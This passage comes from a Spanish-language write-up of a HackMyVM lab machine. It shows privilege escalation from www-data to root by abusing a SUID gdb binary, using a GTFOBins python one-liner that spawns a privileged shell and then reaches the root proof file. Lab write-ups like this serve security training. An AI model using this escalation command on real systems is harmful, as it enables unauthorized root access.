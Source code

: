 ```bash
www-data@connection:/$
``` 

Si vamos a [gtfobins](https://gtfobins.github.io/gtfobins/gdb/#suid) podemos ver como escalar privilegios abusando de el biarnio `gdb` es `SUID` 

```bash
www-data@connection:/$ ls -l /usr/bin/gdb
-rwsr-sr-x 1 root root 8008480 Oct 14  2019 /usr/bin/gdb
www-data@connection:/$ 
```

```bash
www-data@connection:/$ /usr/bin/gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
GNU gdb (Debian 8.2.1-2+b3) 8.2.1
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word".
#
``` 

## Root flag 

```bash
# whoami
root
# cd /root
# ls
proof.txt
#
```
![](/assets/images/hvm-writeup-connection/Final.png)
